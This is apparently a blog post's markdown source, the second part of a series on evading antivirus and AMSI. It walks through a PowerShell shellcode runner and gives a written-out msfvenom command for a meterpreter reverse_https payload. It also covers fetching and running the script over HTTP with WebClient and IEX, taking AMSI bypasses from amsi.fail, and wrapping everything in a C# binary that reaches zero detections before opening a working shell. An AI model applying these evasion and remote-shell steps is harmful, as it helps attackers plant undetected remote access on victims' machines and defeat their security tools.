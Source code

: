 ```yaml
---
layout: post
title: 'AV Evasion Part 2, The disk is lava'
category: evasion
---
```


Welcome back to the blog!  

If you haven't read part 1 of the AV Evasion series, you can find it [here](https://0xhop.github.io/evasion/2021/04/19/evasion-pt1/).
The plan for this post is to show ways to beat signature detection and some AMSI bypasses to reach a low detection rate.  If that sounds interesting, let's Hop to it.

The beautiful thing about .NET is how portable it is.  Microsoft is really good about integration throughout their entire ecosystem.  This also gives attackers more attack surface to take advantage of.  An example of this is transforming our original payload to PowerShell.

We can import kernel32.dll from our original payload by importing it as a type as shown below.
<img src="https://0xh0p.github.io/images/evasion2/AddType.PNG">

With Kernel32.dll loaded in our PowerShell runspace, we are free to invoke our shellcode runner.  If the following functions do not make sense, I urge you to reread part 1 for a deeper explanation of VirtualAlloc,WaitForSingleObject, and CreateThread.  Sample code is shown below.  A clever reader will notice we are missing our fancy Array.Reverse() method.  We have another nifty bypass and its not needed.  Stay tuned to find out why.
<img src="https://0xh0p.github.io/images/evasion2/PSCalls.PNG">

Finally, we can create new shellcode with <code> msfvenom -p windows/x64/meterpreter/reverse_https lhost=eth0 lport=443 -f ps1 </code> and paste it above our $size variable.

Let's test our PowerShell Shellcode runner by invoking it with IEX over http traffic.  I have named the powershell script `local.txt` and have added it to `/var/www/html/` webroot in Kali.  Let's pull it with System.Net.Webclient and invoke with IEX
<img src="https://0xh0p.github.io/images/evasion2/foiled.PNG">

Drats!!!!

it appears AMSI picked up our script.  To continue, we will need to understand how AMSI operates.

AMSI, or AntiMalware Scan Interface, is a newish Antivirus technology from Microsoft that scans for malicious activity in memory.  At the time of writing this, AMSI is integrated into PowerShell, WScript, CScript, and DotNet executables.  I plan on doing a deeper dive discussion on 'patching' in a future post, so we won't get super in depth with this yet.  At a high level, once PowerShell is invoked, amsi.dll is injected into the process and executed.  AMSI_Scan_Buffer is then used to scan for malicious activity.  Because of the way AMSI is currently implemented, the namespace can also patch back into it.  Matt Graber wrote the original AMSI bypass for patching the Scan Buffer function to all return clean [here](https://twitter.com/mattifestation/status/735261176745988096?lang=en).
This has been 'fixed' by Microsoft by adding that as a known malicious signature.  As we saw in part 1, signature detection isn't very good and can be bypassed fairly easily.  The site [amsi.fail](https://amsi.fail) was setup to create amsi bypasses.  We can easily pull down a payload and get around AMSI to allow our script to run.  We will need to keep trying payloads in PowerShell until one works as intended.

<img src="https://0xh0p.github.io/images/evasion2/screwAMSI.PNG">

We now have a functioning AMSI bypass, with that in place.  We can run our ShellCode Runner as intended.  Make sure to Enable Stage Encoding in MSF or it will get flagged by AV after dropping the second stage meterpreter shell.

<img src="https://0xh0p.github.io/images/evasion2/meterpreter1.PNG">

Back to C#

Microsoft really loves integration, so it makes sense that we can invoke PowerShell within our C# app. A quick google search fetches us [the official MS doc on how to invoke Powershell in C#](https://docs.microsoft.com/en-us/powershell/scripting/developer/hosting/adding-and-invoking-commands?view=powershell-7.1).  Let's create a new C# project and add the exact commands listed in the documentation.  For this to work, a Reference will need added to Visual Studio with the dll path at c:\Windows\assembly\GAC_MSIL\System.Management.Automation\...
<img src="https://0xh0p.github.io/images/evasion2/powershellPath.PNG">

The full code can be seen below for our new PowerShell invoking binary.  I like to use [Raika's Hub](https://raikia.com/tool-powershell-encoder/) to encode our required PowerShell commands to one line for ease of execution.
<img src="https://0xh0p.github.io/images/evasion2/raika.PNG">
<img src="https://0xh0p.github.io/images/evasion2/fullCode.PNG">

Let's build and test our new application against [AntiScan.me](https://antiscan.me/scan/new/result?id=0PLTyYg8ovg0)
<img src="https://0xh0p.github.io/images/evasion2/CodeResult.PNG">
0/26 detections.  This is due to our small application calling other methods outside of the binary and pulling the values straight into memory.  We have erased all malicious signatures from the binary.  Since we stripped AMSI from the binary as well, in-memory protections have decreased as well.  Let's execute the payload on our client to test the result in real time.

<img src="https://0xh0p.github.io/images/evasion2/finalmeter.PNG">

We indeed get a working shell.  

This includes AV Evasion Part 2. Share the post if you liked it and I Hop to see everyone next time.
